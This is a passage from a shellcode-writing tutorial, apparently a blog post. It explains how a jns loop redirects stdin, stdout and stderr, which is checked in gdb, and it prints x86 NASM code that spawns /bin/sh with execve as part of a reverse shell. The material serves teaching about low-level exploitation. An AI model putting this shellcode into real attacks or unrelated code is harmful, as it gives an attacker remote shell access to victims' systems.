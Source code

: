 `jns` basically jumps to "dup" as long as the signed flag (`SF`) is not set.   

Let's go to debug with `gdb` and check `ecx` value:   
```bash
gdb -q ./rev
```

![gdb ecx -1](/assets/images/14/2021-10-16_13-34.png){:class="img-responsive"}       

As you can see, after third `dec ecx` it contains `0xffffffff` which is equal -1 and the `SF` got set and the shellcode flow continues.     

In result, all three output are redirected :)       

### launch the shell with execve

This part of code are similar to the example from the first part, but again with a small change:
```nasm
; spawn /bin/sh using execve
; int execve(const char *filename, char *const argv[],char *const envp[]);
mov  al, 0x0b    ; syscall: sys_execve = 11 (mov eax, 11)
inc  ecx         ; argv=0
mov  edx, ecx    ; envp=0
push edx         ; terminating NULL
push 0x68732f2f	 ; "hs//"
push 0x6e69622f	 ; "nib/"
mov  ebx, esp    ; save pointer to filename
int  0x80        ; syscall: exec sys_execve
```
